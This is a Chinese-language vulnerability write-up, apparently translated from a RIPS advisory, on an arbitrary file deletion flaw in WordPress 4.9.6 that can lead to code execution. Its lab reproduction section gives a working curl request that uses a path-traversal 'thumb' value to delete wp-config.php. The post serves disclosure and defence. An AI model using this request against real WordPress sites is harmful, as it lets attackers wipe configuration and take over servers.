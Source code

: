 [ WARNING: WordPress File Delete to Code Execution](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/)

## 背景介绍

`Wordpress`是世界上最受欢迎的一个CMS，根据资料显示，约有30%的网站在使用它。正是树大招风，它也成为黑客攻击研究的一个有趣目标。在这篇博客中将分析Wordpress核心代码中，一个经过认证的任意文件删除漏洞，该漏洞可能会导致攻击者执行任意代码。7个月之前已经向Wordpress安全团队报告了这个漏洞，到如今仍然没有修复。自从提交之后，没有进行任何的补丁和其他措施，漫长地等待，我们还是决定把这个漏洞公开。

## 受影响的版本

在分析这个漏洞的时候，暂时没有补丁来防御该漏洞。所以通杀全版本，包括当前的4.9.6版本，都容易受到该漏洞的影响。

为了能成功利用这个漏洞，需要有一个小条件。攻击者需要先有一个编辑和删除媒体文件的权限，可能得是其中的一个用户。该漏洞可以通过一个低权限或作者用户来升级到高权限的特权，或者通过其他的漏洞/错误配置。

## 利用方式
利用此漏洞可以使攻击者删除Wordpress安装中任何文件(PHP进程用户在服务器上有权限删除的任何文件)。除了删除整个Wordpress安装文件外，如果没有备份可能会导致严重后果。攻击者可以利用任意文件删除功能绕过一些安全措施并在Web服务器上执行任意代码。更确切的说，可以删除以下文件：

* **.htaccess**  通常，删除此文件不会有任何安全后果。但是，在某些情况下，.htaccess文件包含一些安全相关的约束配置（例如，对某些文件夹的访问限制）。删除此文件将会禁用这些安全限制。
* **index.php**  通常情况下，将空的index.php文件放置到目录中，以防止Web服务器无法执行的情况下，造成目录列表敏感信息泄漏。删除这些文件将为攻击者提供一份列表，列出受此措施保护的目录中的所有文件。
* **wp-config.php**  删除这个WordPress安装文件，会导致在下次访问该网站时，会触发WordPress重新安装过程。这是因为wp-config.php包含数据库凭证，如果没有它，WordPress默认是未安装。攻击者可以删除该文件，使用管理员帐户的凭据进行安装，最后在服务器上执行任意代码。

## 漏洞分析

用户输入的内容没有经过处理，传递给文件删除函数时，造成了任意文件删除漏洞。可谓“一切输入点都是不可信的”。在PHP中，当调用unlink()函数，并且用户输入可能影响部分或这个filename参数时，会发生这种情况。没有进行适当的过滤，会删除该路径的文件。

漏洞代码触发点在`wp-includes/post.php`文件。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-27/91545652.jpg)

 在上面显示的`wp_delete_attachement()`函数中，`$ meta ['thumb']`的内容在未经任何过滤的情况下用于unlink()调用。这段代码的目的是在删除图像的同时删除图像的缩略图。在Wordpress中通过媒体管理器上传的图像被表示为附属类型的帖子。值$ meta ['thumb']从数据库中检索，并保存为表示图像的文章的自定义字段。因此，在从数据库中检索到危险函数调用unlink()之间，表示缩略图文件名的值不会进行任何清理或检查。

如果该值在保存到数据库之前也没有经过任何或其他的安全措施，将在下一段代码中看到这种情况，会造成任意文件删除漏洞。

`/wp-admin/post.php`文件：

![](http://opmi2ydgh.bkt.clouddn.com//18-6-27/81545083.jpg)

在`/wp-admin/post.php`代码中，表示属于附件的缩略图的文件名如何保存到数据库。

在从`$ _POST ['thumb']`参数中的用户输入检索并通过`wp_update_attachment_metadata()`函数保存到数据库之间，没有适当的安全措施来确保该值真正代表正在编辑的附件的缩略图。

`$ _POST ['thumb']`的值可以将任何文件的路径保存到`WordPress`上传目录相对路径中，当附件被删除时，该文件将被删除，如第一列表中所示。

## 漏洞复现

登陆后台，在上传图片处。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/38508483.jpg)

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/94878995.jpg)

然后 edit。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/17223918.jpg)

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/19265580.jpg)

setThumbToConfig('5','15674852ce')

15674852ce

wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704

MacBook-Pro:pen_doc lebor$ curl -v 'http://192.168.2.153/wordpress496/wp-admin/post.php?post=5' -H 'Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704' -d 'action=editattachment&_wpnonce=15674852ce&thumb=../../../../wp-config.php'  
*   Trying 192.168.2.153...  
*   TCP_NODELAY set  
*   Connected to 192.168.2.153 (192.168.2.153) port 80 (#0)  
> POST /wordpress496/wp-admin/post.php?post=5 HTTP/1.1  
> Host: 192.168.2.153  
> User-Agent: curl/7.54.0  
> Accept: */*  
> Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704  
> Content-Length: 73  
> Content-Type: application/x-www-form-urlencoded  
>
> * upload completely sent off: 73 out of 73 bytes  
>   < HTTP/1.1 302 Found  
>   < Date: Sat, 30 Jun 2018 21:45:23 GMT  
>   < Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45  
>   < X-Powered-By: PHP/5.4.45  
>   < Expires: Wed, 11 Jan 1984 05:00:00 GMT  
>   < Cache-Control: no-cache, must-revalidate, max-age=0  
>   < X-Frame-Options: SAMEORIGIN  
>   < Referrer-Policy: strict-origin-when-cross-origin  
>   < Location: http://192.168.2.153/wordpress496/wp-admin/post.php?post=5&action=edit&message=4  
>   < Content-Length: 0  
>   < Content-Type: text/html  
>   ​

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/2843462.jpg)

现在点击Delete Permanently即可。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/75307871.jpg)

跳转到安装界面了。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/80117267.jpg)

## 暂缓措施

在写此文章的时候，该漏洞还未被修复。以下的代码只是一个临时的修补措施。通过将修补程序添加到当前活动的主题/子主题的functions.php文件中，就是将修补程序集成到现有的WordPress安装代码中，来防御该漏洞。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-27/19731694.jpg)

提供的所有修补程序都会链接到`wp_update_attachement_metadata()`调用中，并确保为元值提供的数据不包含任何涉及到路径遍历的内容，因而不会删除与安全相关的文件。

以上提供的修复方案只是临时的，不能保证兼容Wordpress以后的版本和插件。建议你还是时刻关注Wordpress的修补措施。

## 时间线

* 2017/11/20   在Hackerone 上向Wordpress安全团队提交漏洞报告
* 2017/11/22 这个漏洞被安全团队确认和分类
* 2017/12/12 询问进展情况
* 2017/12/18  Wordpress正在开发一个补丁程序。要求发布日期。没有回复。
* 2018/01/09 要求发布日期。又是没反应。
* 2018/01/20 由于问题太严重了，要求Hackerone进行调解。
* 2018/01/24 WordPress安全团队估计需要6个月的时间才能修复。
* 2018/05/24 询问有关问题的进展/计划，并提醒我们尽快发布。但没有反应。
* 2018/06/26 提交了漏洞7个月，仍未修复漏洞。

## 总结

在这篇博客文章中，我们介绍了WordPress核心代码中中的一个任意文件删除漏洞，它允许任何具有作者权限的用户完全接管WordPress网站并在服务器上执行任意代码。该漏洞去年报告给WordPress安全团队，但在编写本文时仍然没有作任何修补。

为了让大家认识到此漏洞的严重性，我们还是决定发布一些细节和修补程序。使用我们的安全分析报告可以轻松发现并复现该漏洞，我们相信这个问题已经被许多安全研究人员了解。尽管用户帐户的限制条件，可以减少一些网站被受到攻击，但共享多个用户帐户的站点应该应用修补程序。

## 参考

1.[https://w3techs.com/technologies/details/cm-wordpress/all/all](https://w3techs.com/technologies/details/cm-wordpress/all/all)
2.[https://codex.wordpress.org/Custom_Fields](https://codex.wordpress.org/Custom_Fields)
3.[ Wordpress <= 4.9.6 任意文件删除漏洞](http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility/)


